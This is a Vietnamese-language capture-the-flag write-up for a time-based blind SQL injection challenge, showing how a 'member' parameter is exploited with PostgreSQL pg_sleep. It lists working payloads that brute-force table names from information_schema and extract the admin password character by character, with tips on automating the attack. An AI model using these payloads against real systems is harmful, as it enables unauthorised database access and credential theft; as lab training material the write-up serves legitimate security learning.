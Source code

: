 - tiêu đề : SQL injection - Time based = docter stranger
- nội dung : lại là lấy mật khẩu admin thui 

- NOTE : vì mình làm qua rồi nên sẽ đi thằng vào chỗ bị SQLi luôn nhé 

- trước tiên view qua thì có 2 trang là login và member 
- đại khái login không bị SQLi mình test qua là thế 
- thằng member dùng để xem thông tin thành viên ( nhưng éo cho xem :> ) 

![Alt text](<../image/34.2.png>)

![Alt text](<../image/34.1.png>)

- mình thử inject với PG_SLEEP() tại member=1 và thành công chứng mình bị SQLi 

![Alt text](<../image/34.3.png>)

- okay có dữ kiện mà điều kiện òi phang th 
- mình sẽ làm tựa như bài SQL blind để check ký tự của password ( ví dụ : a% )

- NOTE : thật ra là ae phải tìm tên bảng và tên cột trước nhé . mình tìm rồi nên biết nó là cột password trong bảng users 

----------TÌM BẢNG , CỘT--------------

- 3;select+case+when+((select+length(table_name)+from+information_schema.tables+limit+1)=[length])+then+pg_sleep(10)+else+pg_sleep(-1)+end—

  + lấy độ dài của table đầu tiên và xem nó là bao nhiêu , thì [length] là dộ dài được so sánh ( sẽ thay đổi để brute force độ dài ) 
            
- 3;select+case+when+(substr((select+table_name+from+information_schema.tables+limit+1),§1§,1)=chr(§§))+then+pg_sleep(10)+else+pg_sleep(-1)+end--

   + cái này thì nó dùng substr để cắt lấy ký tự thứ bao nhiêu trong table_name đầu tiên và so sánh với chr() -- thì chr(100) là cái kiểu bash64 biểu thị chữ d

- NOTE : may mắn là users là bảng đầu tiên nếu không phải thì ae bruteforce đến tết năm sau ( thêm OFFSET vào cuối để xét bảng sau nhé )
--------------------------------------

- còn đây là lệnh mình dùng sau khi làm các bước trên 

- -1;SELECT+CASE+WHEN+password+LIKE+'a%'+THEN+(SELECT+PG_SLEEP(10))+END+AS+result+FROM+users+WHERE+username='admin';--a 
-  nếu password có chữ a đứng đầu thì ngủ không thì thôi 

- đoạn này ae dùng intruder hoặc code lại bằng py đều được
- Mình cũng đã hướng dẫn ở bài SQLi blind rồi ae chịu khó đọc lại nhé 

#hackerga2101: 
- tìm hiểu 1 số hàm hỗ trợ trong mysql như: length, substr, group_concat, cast, ...
- và các option select: limit, offset, ... 